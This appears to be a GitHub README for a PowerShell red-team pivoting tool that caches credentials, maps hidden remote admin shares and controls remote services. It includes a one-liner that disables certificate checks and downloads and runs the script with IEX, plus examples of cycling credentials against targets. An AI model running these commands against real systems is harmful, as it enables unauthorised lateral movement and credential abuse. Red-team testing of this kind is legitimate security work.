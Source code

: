 Casper-the-friendly-shell
=========================

STANDARD DISCLAIMER: Unlike most people who commit code to github, my 
primary motivation is simply to find a place for interesting code to live 
if I don't want to lose track of it.  You'll find my coding styles vary 
from project to project and that I pay little attention to community 
standards or feedback.  I do all that stuff at my day job.  Enjoy!  

This powershell script was conceived to help with RedTeam pivoting activities by
consolidating a large collection of click scripts into a single, cohesive series 
of commands that augment the powershell interpreter.

The idea behind Casper is to take the situational awareness
provided by other tools (ie Veil Powerview) and provide
a low-footprint capability for interacting with the
identified assets.  We want to ...
  
      - Implement everything in native Powershell and
        available APIs using no external programs
      - Add no overt drive letters to a running system
        but still make browsing of remote shares easy   
      - Remove much of the pain of entering or pasting
        repetitive credentials and target information
      - Cache credentials securely in memory
      - Provide a shell environment that gives immediate
        and useful feedback about its state
      ... and last but not least ...
      - Be Simple
    
Ways to source this script into a powershell environment:
    1. Copy script and paste at PS prompt
    
    2. Dot-sourcing from the PS prompt
       PS> . .\casper.ps1
       
    3. Sourcing as a remote HTTP resource
       [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
       IEX(New-Object Net.WebClient).DownloadString('https://server/casper.ps1')
       # Note...first line may only be required if using SSL.
      
Once sourced, the following commands will be added to 
powershell for immediate use:
    
    casper       (Prints available commands and examples.)
    creds        (Cache new user/pass credentials.)
    target       (Cache new target credentials.)
    env          (Print the cache.)
    list         (List currently mapped shares.)
    list-remote  (List shares on target specified in cache.)
    map          (Map a share from the target specified in cache.)
    unmap        (Unmap a mapped share.)
    browse       (Browse a mapped share.)
    download     (Download a payload via HTTP.)
    services     (List remote services.)
    service      (Control remote service.)
    
Since Capser intentionally doesn't create new drive letters, 
labels are used instead.
    
    >>> list
      Localhost has 3 mapped drive(s).
      
      Label                                   Share
      ------                                  -----
      32B5                                    \\192.168.101.39\c$
      F699                                    \\192.168.101.39\adm
      z:                                      \\192.168101.97\c$
      
  A label is a function of the hash generated by the share 
  string.  That is how Casper knows which label corresponds
  to which mapped share.  
      
  Any share that has a drive letter (ie "z:") instead of a 
  label CAN be manipulated by casper but it is implicitly
  assumed to have been legitimately mapped by the administrator
  and is thus ignored by commands like 'unmap *'.  
    
To get started, source casper into your powershell interpreter,
have an idea of some targets to hit and some credentials to use,
and set your credentials and target, and go!  
      
     UNSET@UNSET [C:\wherever]
     >>> target 192.168.101.40
     
     UNSET@192.168.101.40 [C:\wherever]
     >>> creds dom\user1 P@$$w0rd
     
     dom\user1@192.168.101.40 [C:\wherever]
     >>> env
        Username  ppf\administrator
        Password  >12deathstarStar Wars !@<
        Target    192.168.25.250
     
      
   You can set the target and credentials independently allowing 
   you to ...
       - Iterate through several targets using a single successful  
         set of credentials
       - Iterate through various credentials for a single target
         until you find some that work
